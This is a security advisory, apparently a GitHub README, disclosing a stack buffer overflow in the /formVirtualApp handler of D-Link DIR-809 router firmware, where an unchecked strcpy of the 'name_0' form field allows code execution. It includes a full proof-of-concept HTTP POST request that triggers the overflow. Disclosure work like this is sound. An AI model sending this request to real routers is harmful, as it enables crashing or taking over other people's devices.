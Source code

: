 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formVirtualApp` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

 ## Vulnerability description

In the function `FUN_8004776c` ( page `/formVirtualApp` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"name_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar2` obtained from user is copied to stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `local_f8`. 

![2021-05-10_10h22_15](README/2021-05-10_10h22_15.png)



## PoC

``` 
POST /formVirtualApp.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 3894
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Virtual_Server_Server.asp?t=1620547787744
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=jFLW3efjuL
Connection: close

settingsChanged=1&curTime=1620547811394&HNAP_AUTH=A4C3C6EB82B72B04DB58611805409259+1620547811&submit-url=%2FAdvanced%2FVirtual_Server_Server.asp&index=1&enabled_0=0&used_0=0&name_0=123123123123123*0x200&default_virtual_servers_0=-1&public_port_0=8999&ip_0=192.168.0.21&computer_list_ipaddr_select_0=-1&private_port_0=8999&protocol_0=1&index=2&enabled_1=0&used_1=0&name_1=&default_virtual_servers_1=-1&public_port_1=&ip_1=&computer_list_ipaddr_select_1=-1&private_port_1=&protocol_1=1&index=3&enabled_2=0&used_2=0&name_2=&default_virtual_servers_2=-1&public_port_2=&ip_2=&computer_list_ipaddr_select_2=-1&private_port_2=&protocol_2=1&index=4&enabled_3=0&used_3=0&name_3=&default_virtual_servers_3=-1&public_port_3=&ip_3=&computer_list_ipaddr_select_3=-1&private_port_3=&protocol_3=1&index=5&enabled_4=0&used_4=0&name_4=&default_virtual_servers_4=-1&public_port_4=&ip_4=&computer_list_ipaddr_select_4=-1&private_port_4=&protocol_4=1&index=6&enabled_5=0&used_5=0&name_5=&default_virtual_servers_5=-1&public_port_5=&ip_5=&computer_list_ipaddr_select_5=-1&private_port_5=&protocol_5=1&index=7&enabled_6=0&used_6=0&name_6=&default_virtual_servers_6=-1&public_port_6=&ip_6=&computer_list_ipaddr_select_6=-1&private_port_6=&protocol_6=1&index=8&enabled_7=0&used_7=0&name_7=&default_virtual_servers_7=-1&public_port_7=&ip_7=&computer_list_ipaddr_select_7=-1&private_port_7=&protocol_7=1&index=9&enabled_8=0&used_8=0&name_8=&default_virtual_servers_8=-1&public_port_8=&ip_8=&computer_list_ipaddr_select_8=-1&private_port_8=&protocol_8=1&index=10&enabled_9=0&used_9=0&name_9=&default_virtual_servers_9=-1&public_port_9=&ip_9=&computer_list_ipaddr_select_9=-1&private_port_9=&protocol_9=1&index=11&enabled_10=0&used_10=0&name_10=&default_virtual_servers_10=-1&public_port_10=&ip_10=&computer_list_ipaddr_select_10=-1&private_port_10=&protocol_10=1&index=12&enabled_11=0&used_11=0&name_11=&default_virtual_servers_11=-1&public_port_11=&ip_11=&computer_list_ipaddr_select_11=-1&private_port_11=&protocol_11=1&index=13&enabled_12=0&used_12=0&name_12=&default_virtual_servers_12=-1&public_port_12=&ip_12=&computer_list_ipaddr_select_12=-1&private_port_12=&protocol_12=1&index=14&enabled_13=0&used_13=0&name_13=&default_virtual_servers_13=-1&public_port_13=&ip_13=&computer_list_ipaddr_select_13=-1&private_port_13=&protocol_13=1&index=15&enabled_14=0&used_14=0&name_14=&default_virtual_servers_14=-1&public_port_14=&ip_14=&computer_list_ipaddr_select_14=-1&private_port_14=&protocol_14=1&index=16&enabled_15=0&used_15=0&name_15=&default_virtual_servers_15=-1&public_port_15=&ip_15=&computer_list_ipaddr_select_15=-1&private_port_15=&protocol_15=1&index=17&enabled_16=0&used_16=0&name_16=&default_virtual_servers_16=-1&public_port_16=&ip_16=&computer_list_ipaddr_select_16=-1&private_port_16=&protocol_16=1&index=18&enabled_17=0&used_17=0&name_17=&default_virtual_servers_17=-1&public_port_17=&ip_17=&computer_list_ipaddr_select_17=-1&private_port_17=&protocol_17=1&index=19&enabled_18=0&used_18=0&name_18=&default_virtual_servers_18=-1&public_port_18=&ip_18=&computer_list_ipaddr_select_18=-1&private_port_18=&protocol_18=1&index=20&enabled_19=0&used_19=0&name_19=&default_virtual_servers_19=0&public_port_19=&ip_19=&computer_list_ipaddr_select_19=-1&private_port_19=&protocol_19=1&index=21&enabled_20=0&used_20=0&name_20=&default_virtual_servers_20=0&public_port_20=&ip_20=&computer_list_ipaddr_select_20=-1&private_port_20=&protocol_20=1&index=22&enabled_21=0&used_21=0&name_21=&default_virtual_servers_21=-1&public_port_21=&ip_21=&computer_list_ipaddr_select_21=-1&private_port_21=&protocol_21=1&index=23&enabled_22=0&used_22=0&name_22=&default_virtual_servers_22=-1&public_port_22=&ip_22=&computer_list_ipaddr_select_22=-1&private_port_22=&protocol_22=1&index=24&enabled_23=0&used_23=0&name_23=&default_virtual_servers_23=-1&public_port_23=&ip_23=&computer_list_ipaddr_select_23=-1&private_port_23=&protocol_23=1

```





## Acknowledgment

Credit to  [@Yu3H0](https://github.com/Yu3H0/), [@peanuts62](https://github.com/peanuts62), [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

